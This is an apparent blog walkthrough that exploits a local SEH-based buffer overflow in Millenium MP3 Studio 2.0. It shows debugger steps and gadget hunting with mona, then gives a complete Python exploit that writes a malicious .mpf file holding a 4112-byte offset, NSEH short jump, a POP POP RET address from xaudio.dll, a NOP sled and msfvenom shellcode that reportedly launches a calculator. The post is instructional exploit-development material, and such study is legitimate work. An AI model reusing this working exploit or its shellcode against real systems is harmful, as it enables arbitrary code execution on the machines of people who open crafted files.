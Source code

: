 ```yaml
---
layout: single
title: Local SEH overflow exploitation - Millenium MP3 Studio 2.0
---
```


**Getting started**

The victim program for this walkthrough is `Millenium MP3 Studio 2.0`, it includes a local SEH based buffer overflow what opening cert sized files with certain file extensions.

Start by attaching an immunity debugger to the running MP3 Studio process.

![local seh 1](https://raw.githubusercontent.com/FULLSHADE/FULLSHADE.github.io/master/static/img/_posts/localseh/localseh1.png)

The basic concept for exploiting a local Structured Exception Handler based buffer overflow, is that you will create a malicious text file that includes the payload that you are going to manually enter into a vulnerable input field, or instead of a text file, you will generate a malicious payload embedded within something other than a text file, for example this target application includes a buffer overflow when parsing certain types of data files, with an .mpf file extension, we will generate our malicious payload.

We can start the exploitation process by creating a basic python script that opens up a new file, and inputs a large buffer of data into it.

```python
from struct import *

malicious_file = "evil.mpf"

payload = "A" * 10000 # the maliciously large buffer

try:
    print("[x] Opening the malicious file")
    payload_execution = open(malicious_file, "w+")
    print("[x] Creating a file named", malicious_file) 
    payload_execution.write(payload)
    print("[x] Adding payload to the malicious file")
    payload_execution.close()
except:
    print("[!] Error creating the exploit")
```

After running the newly-created script, you can now open this malicious .mpf  File in the MP3 Studio application, while the MP3 Studio application is still attached to immunity to bugger. Now you should be able to witness the buffer overflow vulnerability Being triggered, and you should experience an exception crash.

![local seh 2](https://raw.githubusercontent.com/FULLSHADE/FULLSHADE.github.io/master/static/img/_posts/localseh/localseh2.png)

If you look at the stack panel within Immunity, you can see the malicious payload has been written on to the stack.

![local seh 3](https://raw.githubusercontent.com/FULLSHADE/FULLSHADE.github.io/master/static/img/_posts/localseh/localseh3.png)

In order to actually exploit this, you need to obtain a POP POP RET  gadget, this can be done with MONA.py  via the !seh -n  command.

Running this command will search through the program for the needed sequence, this POPPOPRET sequence will return execution flow back to the structured exception Handler, the goal is to overwrite both the exception Handler and the next structured exception Handler. 

![local seh 4](https://raw.githubusercontent.com/FULLSHADE/FULLSHADE.github.io/master/static/img/_posts/localseh/localseh4.png)

And the next structured exception Handler will be overwritten with this sequence that we discover, returning normal flow back to the user-controlled structured exception Handler.

Which you can then add a short jump over the next structure exception Handler, which then jumps into a NOP sled and to your final shellcode payload

Run these new addresses through struct.pack in order to arrange them properly with little endian format.


The last important thing to do before actually constructing the final bits of this exploit, is to use the Metasploit pattern_create and pattern_offset tool in order to calculate the buffer size that you're triggering with this buffer overflow vulnerability

```python
from struct import *

malicious_file = "evil.mpf"

# Log data, item 36
# Address=0BADF00D
# Message=    SEH record (nseh field) at 0x0018f948 overwritten with normal pattern : 0x31684630 (offset 4112), followed by 1712 bytes of cyclic data after the handler

seh = pack ('<I',  0x10014E98) # POP POP RET from xaudio.dll - using !mona seh -n
nseh = pack ('<I', 0x909032EB) # Short jump over the POPPOPRET filled NSEH

# shellcode payload that is generated from msfvenom
shellcode = (
"\xdb\xc8\xba\x50\xf4\xd9\x51\xd9\x74\x24\xf4\x5e\x29\xc9\xb1"
"\x31\x31\x56\x18\x83\xee\xfc\x03\x56\x44\x16\x2c\xad\x8c\x54"
"\xcf\x4e\x4c\x39\x59\xab\x7d\x79\x3d\xbf\x2d\x49\x35\xed\xc1"
"\x22\x1b\x06\x52\x46\xb4\x29\xd3\xed\xe2\x04\xe4\x5e\xd6\x07"
"\x66\x9d\x0b\xe8\x57\x6e\x5e\xe9\x90\x93\x93\xbb\x49\xdf\x06"
"\x2c\xfe\x95\x9a\xc7\x4c\x3b\x9b\x34\x04\x3a\x8a\xea\x1f\x65"
"\x0c\x0c\xcc\x1d\x05\x16\x11\x1b\xdf\xad\xe1\xd7\xde\x67\x38"
"\x17\x4c\x46\xf5\xea\x8c\x8e\x31\x15\xfb\xe6\x42\xa8\xfc\x3c"
"\x39\x76\x88\xa6\x99\xfd\x2a\x03\x18\xd1\xad\xc0\x16\x9e\xba"
"\x8f\x3a\x21\x6e\xa4\x46\xaa\x91\x6b\xcf\xe8\xb5\xaf\x94\xab"
"\xd4\xf6\x70\x1d\xe8\xe9\xdb\xc2\x4c\x61\xf1\x17\xfd\x28\x9f"
"\xe6\x73\x57\xed\xe9\x8b\x58\x41\x82\xba\xd3\x0e\xd5\x42\x36"
"\x6b\x29\x09\x1b\xdd\xa2\xd4\xc9\x5c\xaf\xe6\x27\xa2\xd6\x64"
"\xc2\x5a\x2d\x74\xa7\x5f\x69\x32\x5b\x2d\xe2\xd7\x5b\x82\x03"
"\xf2\x3f\x45\x90\x9e\x91\xe0\x10\x04\xee")

payload = "A" * 4112 # after calculating the buffer size that triggers this specific vulnerability
payload += nseh
payload += seh
payload += "\x90" * 100
payload += shellcode

# Log data, item 24
# Address=10014E98
# Message=  0x10014e98 : pop esi # pop ecx # ret  |  {PAGE_EXECUTE_READ} [xaudio.dll] ASLR: False, Rebase: False, SafeSEH: False, OS: False, v3.0.7.0 (c:\mp3-millennium\xaudio.dllpayload_execution = open(malicious_file, 'w+')

try:
    print("[x] Opening the malicious file")
    payload_execution = open(malicious_file, "w+")
    print("[x] Creating a file named", malicious_file) 
    payload_execution.write(payload)
    print("[x] Adding payload to the malicious file")
    payload_execution.close()
    print("[x] Sending junk")
    print("[x] Sending POP POP RET via controlled SEH handler")
    print("[x] Jumping to shellcode")
except:
    print("[!] Error creating the exploit")
```

Now you can pop a calculator through this local SEH overflow.

![local seh 5](https://raw.githubusercontent.com/FULLSHADE/FULLSHADE.github.io/master/static/img/_posts/localseh/localseh5.png)

